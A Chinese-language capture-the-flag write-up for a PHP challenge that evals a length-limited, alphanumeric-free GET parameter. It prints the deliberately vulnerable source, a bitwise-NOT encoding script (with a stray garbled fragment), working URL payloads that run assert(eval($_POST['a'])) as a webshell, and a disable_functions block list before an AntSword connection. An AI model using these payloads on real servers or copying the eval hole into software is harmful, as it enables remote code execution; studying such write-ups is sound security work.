 ![[Pasted image 20221221195120.png|500]]

---
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
	$code=$_GET['code'];
	if(strlen($code)>40){
		die("This is too Long.");
	}
	if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

朴实无华.jpg

RCE，但是无字母数字QAQ

限制长度的话，估计是要转换成处理另一个参数了

构造目标是`phpinfo();`

感觉异或会太长，通过取反构造

```python
import re
s = input()gao bu lai
for ch in s:
    print('%%%02x' % (~ord(ch) + 256), end='')
```

```shell
$ python tmp.py
phpinfo
%8f%97%8f%96%91%99%90
```

```php
/?code=(~%8f%97%8f%96%91%99%90)();
```
> **disable_functions**
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl

这个怕不是禁得啥都不剩了QAQ

好像还有`assert`

构造`assert(eval($_POST['a']));`

```
assert ==> %9e%8c%8c%9a%8d%8b
eval($_POST['a']) ==> %9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6
```

```php
/?code=(~%9e%8c%8c%9a%8d%8b)(~%9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6);
```

`Antsword`连接

![[Pasted image 20221222114909.png|1000]]

直接用轮子绕过`disable_functions`（嗯，绝对不是`LD_PRELOAD`搞不来～）

![[Pasted image 20221222120344.png]]

#Web #PHP #bypass #encoding #RCE #disable_functions #antsword